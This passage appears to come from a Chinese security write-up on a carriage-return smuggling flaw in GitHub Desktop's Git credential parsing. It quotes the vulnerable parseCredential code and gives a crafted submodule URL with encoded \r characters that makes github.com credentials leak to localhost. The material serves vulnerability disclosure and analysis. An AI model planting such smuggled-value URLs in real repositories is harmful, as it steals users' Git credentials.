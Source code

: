 ```
```  
  
当trampoline接收消息时，会使用parseCredential函数进行解析：  
  
app/src/lib/git/credential.ts 第3-28行(https://github.com/desktop/desktop/blob/6d57135bd0082627adc5ccafa8479110130da361/app/src/lib/git/credential.ts#L3-L28)  
```
export const parseCredential = (value: string) => {
  const cred = new Map<string, string>()

  // 凭证协议采用key=value格式，部分键是数组形式（key[]）
  // 需将多个key[]展开为key[0], key[1]...序列
  for (const [, k, v] of value.matchAll(/^(.*?)=(.*)$/gm)) {
    if (k.endsWith('[]')) {
      let i = 0
      let newKey

      do {
        newKey = `${k.slice(0, -2)}[${i}]`
        i++
      } while (cred.has(newKey))

      cred.set(newKey, v)
    } else {
      cred.set(k, v)
    }
  }

  return cred
}

```  
  
表面上看，这段代码通过正则表达式正确解析了消息。但ECMAScript规范中的正则表达式多行模式存在隐患：当启用m标志时，正则表达式会将回车符（\r）、行分隔符（\u2028）和段落分隔符（\u2029）都视为换行符，而Git凭证协议仅使用换行符（\n）分隔消息。  
  
这种差异允许恶意仓库通过构造如下URL的子模块来窃取凭证：  
```
http://%0dprotocol=https%0dhost=github.com%0d@localhost:13337/

```  
  
其中%0d是回车符的URL编码形式。Git会将以下消息发送给凭证助手：  
```
protocol=http
host=localhost
username=\rprotocol=https\rhost=github.com\r

```  
  
Git仍会识别localhost为主机，但GitHub Desktop会误将github.com识别为目标主机，从而将github.com的凭证返回给localhost，导致凭证泄漏。  
## Git Credential Manager的StreamReader使用不当导致回车符走私（CVE-2024-50338）  
  